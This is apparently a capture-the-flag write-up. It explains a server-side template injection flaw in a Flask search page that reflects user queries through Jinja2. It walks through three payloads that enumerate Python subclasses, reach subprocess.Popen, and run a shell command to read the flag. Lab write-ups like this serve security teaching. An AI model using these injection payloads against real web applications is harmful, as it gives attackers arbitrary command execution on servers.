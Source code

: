 Writeup: This is a python flask website that allows for user interaction with a search field. When the user sends a search query, the server returns the results and reflects the users' query onto the website. The server’s response is rendered using Flask’s `render_template_from_string` function. 

Given that Flask leverages Jinja2 as its templating engine, Jinja2 syntax is followed. For example, the string `<a>{{ 1 + 1 }}</a>` will be rendered as `<a>2<a>`. In this specific challenge, the vulnerable web application renders user-provided content with the render_template_from_string function, resulting in the user being able to pass arbitrary python commands. 

An attacker can read the flag in a few steps:

1. Search `{{"".__class__.__mro__[1].__subclasses__()}}` to see a list of python subclasses classes that inherit the default object (all python class in the current context).

2. Index the list of classes and find the class of choice, being subprocess.Popen. Access it by searching for `{{"".__class__.__mro__[1].__subclasses__()[223]}}`

3. Finally, read the flag by executing `{{"".__class__.__mro__[1].__subclasses__()[223]('cat flag.txt',shell=True,stdout=-1).communicate()[0]}}`